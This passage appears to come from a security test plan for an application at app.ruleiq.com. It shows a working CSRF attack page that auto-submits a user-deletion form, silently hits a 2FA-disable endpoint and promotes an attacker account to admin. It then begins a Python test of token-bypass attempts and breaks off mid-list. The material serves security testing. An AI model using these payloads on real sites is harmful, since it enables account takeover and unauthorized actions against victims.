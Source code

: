 
---

## 8. CSRF Attack Scenarios

### 8.1 Classic CSRF Attack

```html
<!-- Malicious website hosted by attacker -->
<!DOCTYPE html>
<html>
<head>
    <title>You Won a Prize!</title>
</head>
<body>
    <h1>Congratulations!</h1>
    
    <!-- Hidden form that performs unauthorized action -->
    <form id="csrf-form" action="https://app.ruleiq.com/api/users/delete" method="POST">
        <input type="hidden" name="user_id" value="victim-id">
        <input type="hidden" name="confirm" value="true">
    </form>
    
    <!-- Auto-submit on page load -->
    <script>
        document.getElementById('csrf-form').submit();
    </script>
    
    <!-- Alternative: Image tag for GET requests -->
    <img src="https://app.ruleiq.com/api/settings/disable-2fa" style="display:none">
    
    <!-- Alternative: XHR with credentials -->
    <script>
        fetch('https://app.ruleiq.com/api/admin/promote', {
            method: 'POST',
            credentials: 'include',
            body: JSON.stringify({ user_id: 'attacker-id', role: 'admin' })
        });
    </script>
</body>
</html>
```

### 8.2 CSRF Token Bypass Attempts

```python
def test_csrf_bypass():
    """Test CSRF protection bypass techniques"""
    
    # Get legitimate CSRF token
    legit_response = session.get("https://app.ruleiq.com/csrf-token")
    legit_token = legit_response.json()["token"]
    
    bypass_attempts = [
        # Empty token
        {"_csrf": ""},
        
        # Null token
        {"_csrf": None},
        
        # Token from different session
        {"_csrf": get_token_from_different_session()},
        
        # Predictable token
        {"_csrf": "aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa"},
```